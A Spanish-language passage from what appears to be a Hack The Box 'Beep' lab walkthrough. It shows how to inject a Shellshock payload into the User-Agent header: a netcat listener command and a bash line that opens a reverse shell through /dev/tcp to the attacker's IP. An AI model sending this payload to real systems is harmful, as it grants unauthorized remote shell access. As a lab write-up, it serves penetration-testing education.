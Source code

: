 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/27.png)

Después, vamos a borrar el contenido que se encuentra en el campo `User-Agent`, y lo vamos a reemplazar con nuestro código malicioso. Para variar un poco, la `reverse shell` la conseguiremos a través de bash, a diferencia de como lo hicimos en la explotación del servicio `Webmin`; nuevamente, este tipo de `reverse shells`, las podemos conseguir [aquí](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

En primer lugar, desde nuestra máquina de atacantes, a través de `NetCat`, tenemos que ponernos en escucha a través de un puerto cualquiera.
  
``` 
sudo nc -nlvp <puertoCualquiera>
```

Y, el código malicioso que vamos a ingresar en el campo `User-Agent` será: 

```
() { :; }; bash -i >& /dev/tcp/<nuestraIP>/<puertoCualquiera> 0>&1
```

Finalmente, presionaremos el botón `Send`, para que emitir nuestra petición.
